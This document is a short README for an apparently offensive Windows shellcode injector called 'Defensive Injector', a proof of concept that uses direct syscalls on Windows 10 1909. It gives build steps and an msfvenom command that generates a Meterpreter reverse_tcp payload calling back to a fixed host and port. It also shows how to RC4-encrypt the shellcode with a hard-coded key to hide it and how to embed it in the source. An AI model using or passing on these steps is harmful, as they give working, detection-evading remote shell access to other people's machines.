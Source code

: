 # Defensive Injector

The code for the shellcode injector from my blog post.

This code is a PoC and will probly only run of windows 10 x64 version 1909, this is because of the syscall numbers changing between versions. To fix, change the syscall number of line 16 in `syscalls.c` with the corresponding number for that windows version. They can be found [here](https://j00ru.vexillium.org/syscalls/nt/64/).

## Install & Build

```
git clone https://github.com/bats3c/DefensiveInjector
cd DefensiveInjector
make
```

## Using different shellcode

- ##### Generate your shellcode either with msfvenom or something else
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin`

- ##### Encrypt the shellcode
    Keeping in mind that if you change it here you will need to update the key on line 132 in `main.c`
    `cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin`

- ##### Format the shellcode
    Run `xxd -i encmeter.bin` then replace everything between line 10-60 with the output

## Dependencies

```
sudo apt install mingw-w64 nasm
```